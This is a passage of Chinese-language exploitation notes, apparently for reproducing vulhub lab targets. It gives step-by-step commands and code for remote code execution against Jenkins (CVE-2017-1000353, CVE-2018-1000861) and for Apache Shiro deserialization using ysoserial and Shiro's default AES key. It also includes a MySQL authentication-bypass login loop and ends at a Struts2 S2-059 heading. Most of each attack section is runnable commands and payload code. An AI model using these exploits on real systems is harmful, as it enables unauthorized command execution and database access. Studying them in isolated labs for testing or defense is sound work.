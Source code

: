 # jenkins
## CVE-2017-1000353(Jenkins-CI RCE)

测试环境为Jenkins ver.2.46.1

- 使用 https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar 生成POC

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

- 使用 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py 发送POC

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

## CVE-2018-1000861(RCE)

测试环境为Jenkins ver.2.1.38

- 使用 https://github.com/orangetw/awesome-jenkins-rce-2019/blob/master/exp.py 发送POC

```
python2 'http://your-ip:8080/securityRealm/user/admin' 'ping IP'
```

# shiro
## CVE-2016-4437(反序列化)

- Apache Shiro 1.2.4及以前

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

发送rememberMe Cookie，即可成功执行touch /tmp/success

以上未成功

使用 https://github.com/feihong-cs/ShiroExploit-Deprecated 

成功

# mysql

- MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.
- MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

在不知道我们环境正确密码的情况下，在bash下运行如下命令，在一定数量尝试后便可成功登录：

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```

# Struts2
## S2-059(CVE-2019-0230)

- Struts 2.0.0 - Struts 2.5.20


